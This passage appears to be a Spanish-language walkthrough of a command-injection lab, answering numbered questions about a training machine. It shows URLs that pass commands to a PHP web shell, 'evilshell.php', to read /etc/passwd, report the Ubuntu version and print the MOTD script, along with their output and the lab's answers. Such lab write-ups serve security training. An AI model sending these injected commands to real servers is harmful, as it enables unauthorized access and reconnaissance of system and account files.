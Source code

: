 `www-data`

4. ¿Cómo está configurado el shell del usuario?

`http://10.10.175.234/evilshell.php?commandString=cat+%2Fetc%2Fpasswd`

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```

`/usr/sbin/nologin`

5. ¿Qué versión de Ubuntu se está ejecutando?

`http://10.10.175.234/evilshell.php?commandString=lsb_release+-a`

```
Distributor ID: Ubuntu Description: Ubuntu 18.04.4 LTS Release: 18.04 Codename: bionic
```

`18.04.4`

6. Imprime el MOTD. ¿Qué bebida favorita se muestra?

`http://10.10.175.234/evilshell.php?commandString=cat+%2Fetc%2Fupdate-motd.d%2F00-header`

```
#!/bin/sh # # 00-header - create the header of the MOTD # Copyright (C) 2009-2010 Canonical Ltd. # # Authors: Dustin Kirkland # # This program is free software; you can redistribute it and/or modify # it under the terms of the GNU General Public License as published by # the Free Software Foundation; either version 2 of the License, or # (at your option) any later version. # # This program is distributed in the hope that it will be useful, # but WITHOUT ANY WARRANTY; without even the implied warranty of # MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the # GNU General Public License for more details. # # You should have received a copy of the GNU General Public License along # with this program; if not, write to the Free Software Foundation, Inc., # 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA. [ -r /etc/lsb-release ] && . /etc/lsb-release if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then # Fall back to using the very slow lsb_release utility DISTRIB_DESCRIPTION=$(lsb_release -s -d) fi printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)" DR PEPPER MAKES THE WORLD TASTE BETTER!
```

`DR PEPPER`

